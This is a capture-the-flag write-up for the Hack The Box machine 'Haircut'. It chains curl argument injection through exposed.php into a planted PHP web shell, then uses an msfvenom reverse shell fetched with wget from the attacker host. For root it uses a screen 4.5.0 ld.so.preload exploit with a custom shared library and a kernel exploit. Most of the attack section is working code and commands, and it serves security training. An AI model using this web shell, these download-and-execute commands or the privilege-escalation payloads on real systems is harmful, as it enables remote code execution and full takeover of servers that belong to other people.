# [Haircut](https://app.hackthebox.eu/machines/21)

Start with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.24 &
# UDP deep scan
sudo nmap -sU -p1-65535 -oA udp --open -Pn -sV 10.10.10.24 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.24
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.24
```

The TCP `nmap` quick scan returns the following:



Start the following web scanners:

```bash
nikto -h http://10.10.10.24/ --maxtime=30s
gobuster dir -t 100 -q -z -o port-80.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.24/ &
```

To install & setup `gobuster`:

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
```

Next, manually visit the website:


Nothing more than just an image. The `gobuster` output finished and shows the following:



The page at `/uploads` gives a 403 error but `/exposed.php` shows the following:



Selecting `Go` with the default input gives a new page:



Maybe this can be used for a shell if we escape the command? Trying `http://localhost/test.html && echo "BUBBA"` returns an error saying "& is not a good thing to put in a URL". To get more info, try hosting a payload for the website to fetch. First, make a Python HTTP server that logs HTTP headers:

```python
import http.server as SimpleHTTPServer
import socketserver as SocketServer

PORT = 7777

class GetHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
  def do_GET(self):
    print('--- BEGIN ---')
    print(self.headers)
    SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)
    print('--- END ---')

Handler = GetHandler
httpd = SocketServer.TCPServer(("", PORT), Handler)
httpd.serve_forever()
```

Then make some test content and host it:

```bash
echo BUBBA > test.txt
python3 server.py # contains the Python code above
```

Then input the request `http://10.10.14.23:7777/test.txt` into `/exposed.php` to get the following:



From the output, it seems that `curl` is being used based on the User-Agent. Maybe it is possible to try and insert arguments into the `curl` command from `exposed.php`? try adding the `--help` command line flag to the input for `/exposed.php` to get the following:



Nice! now this just needs to be made into something exploitable... The `-o` option allows for the output to be saved as a  file. If `curl` can create a file in a web directory, it is possible to get a web shell on the target. Trying the easy location of `/tmp` works with this input `http://10.10.14.23:7777/test.txt -o /tmp/bubba.txt`, but that directory is not being served by the server. Trying `/var/www/html` gives the following error:



The next known directory is `/uploads` and **does not error** with the input `http://10.10.14.23:7777/test.txt -o /var/www/html/uploads/bubba.txt`. Browsing to `http://10.10.10.24/uploads/bubba.txt` now returns `BUBBA`. With this, create the following PHP webshell as `bubba.php`:

```php
<?php
if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  executeCommand($cmd);
  die();
}

function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
?>
```

Then send the input `http://10.10.14.23:7777/bubba.php -o /var/www/html/uploads/bubba.php` to `http://10.10.10.24/exposed.php` with a simple `curl` after viewing the HTML source:

 

```bash
curl -s -X POST --data-urlencode "formurl=http://10.10.14.23:7777/bubba.php -o /var/www/html/uploads/bubba.php" http://10.10.10.24/exposed.php
```

Now this web shell can be used as follows:

```bash
curl http://10.10.10.24/uploads/bubba.php?cmd=whoami
```

Which returns the following:



That's remote code execution! Now to make this a more dedicated shell:

```bash
# check that remote target has wget
curl --data-urlencode "cmd=which wget" http://10.10.10.24/uploads/bubba.php 
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 7777
python3 -m http.server 7777
# listen for callback
nc -nvlp 6969
# send command to target
curl --data-urlencode "cmd=wget http://10.10.14.23:7777/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &" http://10.10.10.24/uploads/bubba.php
```

This returns the following dedicated shell that can be upgraded to a PTY shell:

- https://netsec.ws/?p=337

```bash
find / -iname user.txt -type f -exec ls -lad {} \; 2>/dev/null
```



And that's `user.txt`. During enumeration, the Linux kernel version and OS version indicate a possible kernel exploit:

- https://www.exploit-db.com/exploits/45010

```bash
searchsploit ubuntu 16.04 linux kernel 4.4 # search query on kali for kernel exploits
```



From the source code for exploit 45010:

>   Tested on Ubuntu 16.04 with the following Kernels
>   4.4.0-31-generic
>   4.4.0-62-generic
>   4.4.0-81-generic
>   4.4.0-116-generic
>   4.8.0-58-generic
>   4.10.0.42-generic
>   4.13.0-21-generic

Even though the exact kernel version is not listed (`4.4.0-78-generic`), versions before and after are listed so there is a good chance this will work. However, there is likely another way...

When looking for SGID binaries, an interesting one shows up:

```bash
find / -perm -g=s -type f -exec ls -lad {} \; 2>/dev/null
```



`screen.old` is not something standard in this output... Looking for SUID binaries shows another interesting entry:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```



Why are there 2 versions? A quick search for exploits returns interesting results:

```bash
searchsploit screen 4.5
searchsploit -m 41152
```



The exploit 41152 has interesting info:

> Commit f86a374 ("screen.c: adding permissions check for the logfile name",
2015-11-04)
>
> The check opens the logfile with full root privileges. This allows us to
> truncate any file or create a root-owned file with any contents in any
> directory and can be easily exploited to full root access in several ways.
>
> address@hidden:~$ screen --version
> Screen version 4.05.00 (GNU) 10-Dec-16
> address@hidden:~$ id
> uid=125(buczek) gid=125(buczek)
> address@hidden:~$ cd /etc
> address@hidden:/etc (master)$ screen -D -m -L bla.bla echo fail
> address@hidden:/etc (master)$ ls -l bla.bla
> -rw-rw---- 1 root buczek 6 Jan 24 19:58 bla.bla
> address@hidden:/etc (master)$ cat bla.bla
> fail
> address@hidden:/etc (master)$

Looking at the version output from the `screen-4.5.0` binary, it matches the `Screen version 4.05.00 (GNU) 10-Dec-16` of the exploit! The other exploit 41154 has some PoC Bash script code to use this vulnerability to make a `root` shell by creating a shared library and using `screen` to create the `/etc/ld.so.preload` file with this new shared library in it. This library will be loaded by `screen` and executed to create a SUID root-owned binary. However, this process can be simplified... The vulnerability gives the ability to truncate or create any file as root. An easier method would be to use the vulnerability to create a new file in `/etc/cron.d/` to call a reverse shell binary:

- https://man7.org/linux/man-pages/man8/ld.so.8.html
- https://manpages.debian.org/buster/cron/cron.8.en.html

However, the Debian manpage for `cron` says the following:

> Additionally, in Debian, *cron* reads the files in the  /etc/cron.d directory. *cron* treats the files in /etc/cron.d as in the same way as the /etc/crontab file (they follow the special format of that file, i.e. they include the *user* field). However, they are independent of /etc/crontab: they do not, for example, inherit environment variable settings from it. This change is specific to Debian see the note under **DEBIAN SPECIFIC** below.
>
> Like /etc/crontab, the files in the /etc/cron.d directory are monitored for changes. In general, the system administrator should not use /etc/cron.d/, but use the standard system crontab /etc/crontab.
>
> /etc/crontab and the files in /etc/cron.d must be owned by root, and must not be group- or other-writable. In contrast to the spool area, the files under /etc/cron.d or the files under /etc/cron.hourly,/etc/cron.daily, /etc/cron.weekly and /etc/cron.monthly may also be symlinks, provided that both the symlink and the file it points to are owned by root. The files under /etc/cron.d do not need to be executable, while the files under /etc/cron.hourly, /etc/cron.daily, /etc/cron.weekly and /etc/cron.monthly do, as they are run by *run-parts* (see    [run-parts(8)](https://manpages.debian.org/buster/debianutils/run-parts.8.en.html) for more information).

Testing the vulnerability seems to only be able to create files and add content to them as root if the `umask` value allows for it. However, this won't work with `cron` because the files in `/etc/cron.d/` cannot be writable by anyone else other than root...

- https://www.cyberciti.biz/tips/understanding-linux-unix-umask-value-usage.html

```bash
# change the default user file creation mask to allow anything
umask 000
# test creation, this returns a file with the content "TEST" :)
# -rw-rw-rw- 1 root www-data 6 Sep 24 19:16 test1
screen-4.5.0 -D -m -L /tmp/test1 echo TEST
# change the default user file creation mask to allow global read only
umask 022
# test creation, this returns an empty file :(
# -rw-r--r-- 1 root www-data 0 Sep 24 19:17 test2
screen-4.5.0 -D -m -L /tmp/test2 echo TEST
```

So this vulnerability cannot be used to make a custom `cron` task. Also, when trying to walk through the steps of exploit 41154 causes an error with `gcc`:



This error is caused by a missing package, which requires root privileges to install... Next step is to cross-compile the code using Kali. From the target Linux Kernel verison enumeration, the CPU architecture is x86_64 which matches the Kali version:

- https://stackoverflow.com/questions/11912878/gcc-error-gcc-error-trying-to-exec-cc1-execvp-no-such-file-or-directory



First create the shared library object that will be ran by `screen` from the `/etc/ld.so.preload` file. This shared library will fork a new child process and use the SUID of the parent (`screen`) to spawn a reverse shell as root:

```c
// file saved as bubba.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

__attribute__ ((__constructor__))
void bubba(void){
  printf("[*] removing /etc/ld.so.preload ...\n");
  unlink("/etc/ld.so.preload");
  printf("[*] spawning root shell...\n");
  if (!fork()) {
    // use SUID permissions of parent to elevate to root
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    // spawn reverse shell
    execvp("/tmp/bubba.root.elf", NULL);
  }
}
```

Next, build the new reverse shell payload, cross compile/host the shared library, and start a new listener:

```bash
# create the new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=9999 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.root.elf
# compile shared library
gcc -fPIC -shared -ldl -o bubba.so bubba.c
# host files
python3 -m http.server 7777
# listen for root shell
nv -nvlp 9999
```

Now download the shared library and new payload to `/tmp` on the target:

```bash
wget http://10.10.14.23:7777/bubba.root.elf -P /tmp/ 
wget http://10.10.14.23:7777/bubba.so -P /tmp/ 
chmod +x /tmp/bubba.root.elf
chmod +x /tmp/bubba.so
```

Next, trigger the vulnerability by creating the file `/etc/ld.so.preload` which links to `/tmp/bubba.so` and then run `screen` again to run `bubba.root.elf` as root from the SUID of `screen`:

```bash
# reset umask
umask 000
# create /etc/ld.so.preload
screen -D -m -L /etc/ld.so.preload echo -ne "\x0a/tmp/bubba.so"
# spawn the child process
screen -ls
```



This returns a reverse shell as root!



However, just for fun, try the kernel exploit previously found:

```bash
# on kali, compile
gcc 45010.c -o 45010
# on kali, host
python3 -m http.server 7777
# on target, download & execute
wget http://10.10.14.23:7777/45010 -P /tmp/
chmod +x /tmp/45010
/tmp/45010
```



And that is also root!